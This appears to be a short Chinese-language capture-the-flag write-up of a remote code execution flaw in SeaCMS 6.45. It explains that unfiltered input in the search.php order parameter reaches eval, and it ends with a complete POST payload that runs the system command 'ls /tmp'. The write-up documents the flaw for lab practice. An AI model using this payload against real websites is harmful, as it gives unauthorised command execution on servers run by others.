

# 海洋 cms V6.45版本代码执行 by [Frivolous-scholar](https://github.com/Frivolous-scholar) 

## 概述

该漏洞成因在于 search.php 没有对用户输入内容进行过滤，导致攻击者提交的 order 参数可进入 parseIf 函数中执行 eval。

## 复现

1、首先打开靶场。


2、输入任意内容搜索并抓包。



3、利用 POC 拿到 Flag

```
searchtype=5&order=}{end if}{if:1)$_POST[func]($_POST[cmd]);if(1}{end if}&func=system&cmd=ls /tmp
```


